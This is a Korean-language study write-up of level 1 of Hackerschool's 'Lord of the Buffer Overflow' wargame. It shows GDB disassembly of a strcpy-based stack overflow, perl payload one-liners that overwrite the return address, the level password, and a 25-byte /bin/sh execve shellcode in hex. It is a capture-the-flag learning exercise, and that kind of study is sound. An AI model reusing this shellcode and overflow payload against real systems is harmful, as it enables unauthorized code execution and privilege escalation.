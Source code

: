 
# Lord Of the Buffer Overflow 문제풀이

Buffer Overflow기법에 대해서 공부하는 용도로 hackerschool에서 제작한 워게임에 대한 풀이를 보고서 형식으로 작성하였습니다.
원래는 c로 작성된 소스코드를 볼 수 있도록 출제측에서 오픈해놓았으나, 학습이 목적이기도 하며 실제 상황에서는 소스코드가 오픈되어 있지 않는 점 등을 감안하여 GDB디버거로 바이너리 코드를 열어 이를 통해 분석하는 리버스 엔지니어링을 이용한 문제해결을 하였습니다.


BOF 전용 게시판: http://www.hackerschool.org/HS_Boards/zboard.php?id=bof_fellowship

-다운로드 주소: http://www.hackerschool.org/HS_Boards/zboard.php?id=bof_fellowship_2round&page=1&sn1=&divpage=1&sn=off&ss=on&sc=on&select_arrange=headnum&desc=asc&no=4


## (01) LEVEL1: gate/gate  



*패스워드 확인하는 명령어 ==> my-pass TheLordOfTheBOF_redhat 권한 없으므로 일단 복사 후 권한 변경 gdb 에서 esp 70개씩 보면 됨 r $(perl -e 'print "a"x260 . "CCCC"') r $(perl -e 'print "a"x260 . "\x4c\xf9\xff\xbf"') 셸코드 크기: 25바이트. "a"235만큼 채우면 됨. r $(perl -e 'print "SHELL CODE" . "a"x235 . "\x48\xf9\xff\xbf"') SHELL CODE 시작될 주소:bf-ff-f9-48 $bash: 나오면 성공 $bash에서 id or whoami 입력하면 다음레벨 id 나옴, $bash에서 my-pass 입력하면 비밀번호 나옴. putty로 telnet 접속 방법 #>netconfig ->유동ip설정 #>/sbin/ifconfig putty에서 입력.
환경변수에서 SHELL 포함된 내용 보기: env | grep SHELL
SHELL 변경: #>chsh /bin/bash2 exit후 재접속 bash2로 변경 후 시작. 원본 바이너리 복사본으로 분석 시작!

0x8048430 <main>:       push   %ebp 0x8048431 <main+1>:     mov    %ebp,%esp	프롤로그                                                    스택영역 100바이트 할당 [ebp+8]은 첫번째 argument이므로 argc if(argc <=1)  printf( "argv error\n"); 함수리턴 아래 함수의 argument exit(0); 함수리턴 [ebp+12]는 두번째 argument이므로 *argv[0] argv[1] strcpy의 두번째 argument argv[1] strcpy의 첫번재 argument &buffer[0] strcpy(buffer,argv[1]); 함수리턴 &buffer[0] "%s\n" printf(""%s\n",buffer); 함수리턴 에필로그
0x8048433 <main+3>:     sub    %esp,0x100
0x8048439 <main+9>:     cmp    DWORD PTR [%ebp+8],1 0x804843d <main+13>:    jg     0x8048456 <main+38>
0x804843f <main+15>:    push   0x80484e0 0x8048444 <main+20>:    call   0x8048350 <printf> 0x8048449 <main+25>:    add    %esp,4
0x804844c <main+28>:    push   0 0x804844e <main+30>:    call   0x8048360 <exit> 0x8048453 <main+35>:    add    %esp,4
0x8048456 <main+38>:    mov    %eax,DWORD PTR [%ebp+12] 0x8048459 <main+41>:    add    %eax,4 0x804845c <main+44>:    mov    %edx,DWORD PTR [%eax] 0x804845e <main+46>:    push   %edx 0x804845f <main+47>:    lea    %eax,[%ebp-256] 0x8048465 <main+53>:    push   %eax 0x8048466 <main+54>:    call   0x8048370 <strcpy> 0x804846b <main+59>:    add    %esp,8
0x804846e <main+62>:    lea    %eax,[%ebp-256] 0x8048474 <main+68>:    push   %eax 0x8048475 <main+69>:    push   0x80484ec 0x804847a <main+74>:    call   0x8048350 <printf> 0x804847f <main+79>:    add    %esp,8
0x8048482 <main+82>:    leave 0x8048483 <main+83>:    ret

1. 제약조건은 arg가 2개 이상이기만 하면 되므로 사용할 수 있는 공간이 많음.
가장 기본인 stack 메모리의 시작주소를 return주소로 정함
셸코드 크기: 25바이트. "\x90"235만큼 채우면 됨. r $(perl -e 'print "SHELL CODE" . "\x90"x235 . "\x78\xf9\xff\xbf"') SHELL CODE 시작될 주소:bf-ff-f9-78
"SHELL CODE"
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
arg를 하나 더 추가해서 풀 수도 있음.
